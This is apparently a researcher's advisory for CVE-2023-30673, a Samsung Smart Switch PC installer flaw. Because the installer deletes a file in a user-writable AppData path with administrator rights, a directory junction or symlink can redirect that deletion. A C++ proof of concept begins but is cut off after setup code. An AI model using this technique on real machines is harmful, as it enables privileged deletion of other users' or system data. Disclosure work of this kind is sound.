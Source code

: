 ```yaml
---
title : "CVE-2023-30673: Possible to delete arbitrary directory vulnerability in Smart Switch PC"
excerpt: "CVE-2023-30673"

categories:
    - "0-day"
tags:
    - [Samsung, 0-day, CVE, CVE-2023-30673, EoP, DoS, Mitre]
---
```



## 0x01: Details

- Title: Possible to delete arbitrary directory vulnerability in Smart Switch PC
- CVE ID: CVE-2023-30673
- Vendor ID : SVE-2023-0312
- Advisory Published: 2023/07/06
- Advisory URL : [https://security.samsungmobile.com/serviceWeb.smsb?year=2023&month=07](https://security.samsungmobile.com/serviceWeb.smsb?year=2023&month=07)

## 0x02: Test Environment

- Samsung Smart Switch for Windows : 4.3.23022_1
- OS : Windows 10 Pro 64-bit 21H2 (build 19045.2604)

## 0x03: Vulnerability details

Improper validation of integrity check vulnerability in Smart Switch PC prior to version 4.3.23052_1 allows local attackers to delete arbitrary directory using directory junction.
The patch prevents directory junction in the directory used during installation process.

## 0x04: Technical description

The Samsung Smart Switch installer operates with administrator privileges and deletes the `C:\Users\%Username%\AppData\Roaming\Samsung\Smart Switch PC\CRMData.db` file during the installation process. Since the path of this file is accessible to normal users, an attacker can delete any file by exploiting administrative privileges through a symbolic link.

Note: `%Username%` must be replaced with the account name of the user logged into Windows.

## 0x05: Proof-of-Concept (PoC)

```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <iostream>
#include <windows.h>
#include <wchar.h>
#include <string>
#include "NtDefine.h"

DWORD LastError = 0;
void SetLastErr(DWORD err) {
	LastError = err;
}

std::wstring BuildNativePath(std::wstring path) {
	if (path.rfind(L"\\", 0) != std::wstring::npos) {
		return path;
	}
	path = L"\\??\\" + path;
	return path;
```